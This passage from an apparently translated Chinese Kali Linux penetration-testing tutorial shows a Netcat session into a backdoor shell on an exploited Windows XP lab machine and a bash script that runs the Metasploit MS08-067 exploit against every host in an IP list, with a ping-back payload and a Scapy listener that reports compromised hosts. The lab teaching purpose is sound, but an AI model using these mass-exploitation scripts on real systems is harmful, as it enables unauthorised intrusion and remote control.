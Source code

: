 如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述表明，该脚本应该以一个参数执行，该参数指定了包含目标 IP 地址列表的文本文件的文件名。 一旦以这个参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始执行终端在它们被执行时输出进程列表，并且表明在每个终端上创建后门。 在每个终端中完成利用序列之后，Netcat 可以用于连接到由载荷打开的远程服务：

```
root@KaliLinux:~# nc -nv 172.16.36.225 4444 
(UNKNOWN) [172.16.36.225] 4444 (?) open 
Microsoft Windows XP [Version 5.1.2600] 
(C) Copyright 1985-2001 Microsoft Corp.

C:\>

```

在提供的示例中，IP 地址为`172.16.36.225`的被利用的系统上的 TCP 4444 端口的连接，会生成可远程访问的`cmd.exe`终端服务。

### 工作原理

Netcat 是一个功能强大的工具，可以用于各种目的。 虽然这是远程执行服务的有效方式，但不建议在生产系统上使用此技术。 这是因为任何可以与监听端口建立 TCP 连接的人都可以访问 Netcat 打开的后门。

## 8.7 使用 ICMP 验证多线程 MSF 利用

该秘籍演示了如何使用 bash 利用跨多个系统的单个漏洞，并使用 ICMP 流量验证每个漏洞的成功利用。 这种技术需要很少的开销，并且可以轻易用于收集可利用的系统列表。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```sh
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; 
exit; fi

iplist=$1

for ip in $(cat $iplist)
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c ping \"172.16.36.239 -n 1 -i 15\"" 
    RHOST=$ip E   
    echo "Exploiting $ip and pinging" 
done 
```

此脚本与上一个秘籍中讨论的脚本不同，因为载荷仅仅从被利用系统向攻击系统发回 ICMP 回响请求。 在执行`ping`命令并使用`-i`选项来指定生存时间（TTL）为 15 时。此备用 TTL 值用于区分利用生成的流量与正常 ICMP 流量。 还应该执行定制的 Python 监听器脚本，通过接收 ICMP 流量来识别被利用的系统。 这个脚本如下：

```py
#!/usr/bin/python

from scapy.all import * 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def rules(pkt):   
    try:      
        if ((pkt[IP].dst=="172.16.36.239") and (pkt[ICMP]) and pkt[IP]. ttl <= 15):         
            print str(pkt[IP].src) + " is exploitable"      
    except:         
        pass
```